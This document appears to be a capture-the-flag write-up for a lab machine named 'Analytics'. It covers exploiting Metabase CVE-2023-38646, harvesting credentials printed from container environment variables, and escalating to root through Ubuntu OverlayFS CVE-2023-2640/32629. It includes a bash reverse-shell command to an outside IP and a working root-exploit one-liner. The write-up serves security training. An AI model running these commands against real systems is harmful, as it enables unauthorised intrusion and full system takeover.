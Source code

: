 # Analytics



## Initial access
this machine have subdomain data.analytical.htb and using a Metabase version 0.46.x which vulnerable to CVE-2023-38646 attack
https://secry.me/explore/news/metabase-rce-cve-2023-38646/


### Using metasploit
we can import this exploit/metabase_setup_token_rce.rb to metasploit and getting reverse shell


### Using python script
https://github.com/robotmikhro/CVE-2023-38646

```bash
python3 single.py -u http://data.analytical.htb -c 'whoami'
python3 single.py -u http://data.analytical.htb -c 'bash -i >& /dev/tcp/10.0.0.1/4242 0>&1'
```


## Escaping the docker
in the environment we can see information about credential
```bash

$env

MB_LDAP_BIND_DN=
LANGUAGE=en_US:en
USER=metabase
HOSTNAME=1aa340206f20
FC_LANG=en-US
SHLVL=5
LD_LIBRARY_PATH=/opt/java/openjdk/lib/server:/opt/java/openjdk/lib:/opt/java/openjdk/../lib
HOME=/home/metabase
MB_EMAIL_SMTP_PASSWORD=
LC_CTYPE=en_US.UTF-8
JAVA_VERSION=jdk-11.0.19+7
LOGNAME=metabase
_=/bin/sh
MB_DB_CONNECTION_URI=
PATH=/opt/java/openjdk/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
MB_DB_PASS=
MB_JETTY_HOST=0.0.0.0
META_PASS=An4lytics_ds20223#
LANG=en_US.UTF-8
MB_LDAP_PASSWORD=
SHELL=/bin/sh
MB_EMAIL_SMTP_USERNAME=
MB_DB_USER=
META_USER=metalytics
LC_ALL=en_US.UTF-8
JAVA_HOME=/opt/java/openjdk
PWD=/
MB_DB_FILE=//metabase.db/metabase.db


```
notice the `META_USER` and `META_PASS` we can use this credential for login with ssh and we will have the host machine access


## Privilege Escalation
this machine using Ubuntu 23.04 which vulnerable to CVE-2023-2640 and CVE-2023-32629.
https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629

we can automaticly gaining root access with this command below

```bash
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("cp /bin/bash /var/tmp/bash && chmod 4755 /var/tmp/bash && /var/tmp/bash -p && rm -rf l m u w /var/tmp/bash")'

```
